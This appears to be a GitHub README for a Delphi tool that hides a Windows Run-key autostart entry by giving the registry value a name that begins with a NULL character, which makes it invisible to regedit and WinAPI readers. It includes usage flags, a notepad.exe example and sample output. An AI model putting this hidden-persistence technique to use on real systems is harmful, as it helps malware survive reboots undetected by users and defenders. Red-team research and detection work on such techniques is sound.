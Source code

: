 # Registry_Masquerade-Delphi

This application masquerade registry value, using null embedded character. 
This can be used for Persistence.

# Usage

```bat
Registry Masquerade Usage:
  -enable -command "<command_path>" : Enable startup entry
  -disable                          : Disable startup entry
  -status                           : Show current status
  -help                             : Show this help message

Examples:
  drm.exe -enable -command "C:\Windows\System32\notepad.exe"
  drm.exe -disable
  drm.exe -status
```

For example we want the notepad to be run automatically when a user logs into the system.

```bat
drm.exe -enable -command "C:\Windows\System32\notepad.exe"

Setting registry value with null char...
Registry path: \Registry\User\S-1-5-21-4127810242-1992510350-945644731-1001\Software\Microsoft\Windows\CurrentVersion\Run
NtCreateKey Status: 0
Key created/opened successfully
Registry value set successfully with command: C:\Windows\System32\notepad.exe
```
The name of the registry value starts with a NULL character, followed by the actual name. Since WinAPI uses null terminated strings, the name of the value technically equals to NULL.

 However, the notepad is still executed on startup because the content of the value is valid. The registry editor is unable to display this value, and so is any program that uses the WinAPI to read the registry. It is required to use the native API, which uses UNICODE_STRING allowing to read and write embedded NULL characters.

 Done! Persistence is now achieved.

![alt text](image.png)
![alt text](image-1.png)


To remove the entry use the disable flag.

```bat
drm.exe -disable -command "C:\Windows\System32\notepad.exe"

Registry value removed successfully
```
<br>

<p align="center">Made with ❤️ using Delphi RAD Studio</p>









